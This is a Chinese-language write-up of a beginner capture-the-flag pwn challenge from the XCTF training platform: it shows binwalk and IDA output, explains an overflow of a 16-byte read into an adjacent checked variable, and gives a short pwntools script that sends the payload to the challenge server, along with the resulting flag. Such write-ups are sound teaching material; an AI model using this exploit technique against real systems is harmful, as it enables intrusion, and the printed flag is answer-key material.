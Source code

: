 https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5052&page=1

# 分析

1. binwalk查看，得知是64位可执行文件。

   ```
   DECIMAL       HEXADECIMAL     DESCRIPTION
   --------------------------------------------------------------------------------
   0             0x0             ELF, 64-bit LSB executable, AMD x86-64, version 1 (SYSV)
   ```

2. IDA查看，main主函数如下：

   ```
   __int64 __fastcall main(__int64 a1, char **a2, char **a3)
   {
     alarm(0x3Cu);
     setbuf(stdout, 0LL);
     puts("~~ welcome to ctf ~~     ");
     puts("lets get helloworld for bof");
     read(0, &unk_601068, 0x10uLL);
     if ( dword_60106C == 1853186401 )
       sub_400686(0LL, &unk_601068);
     return 0LL;
   }
   ```

   sub_400686函数如下：

   ```
   __int64 sub_400686()
   {
     system("cat flag.txt");
     return 0LL;
   }
   ```

   可以看到当dword_60106C===1853186401时，即可打印出flag。

   read(0, &unk_601068, 0x10uLL) 输入地址偏移4位就是60106C

3. pwntools

   ```
   from pwn import *
   
   io = remote('111.200.241.244',52795 )
   io.send('a' * 4 + p64(1853186401).decode())
   io.interactive()
   ```

   得到flag：cyberpeace{714659b5c6d4d1b0e547b825060d5301}


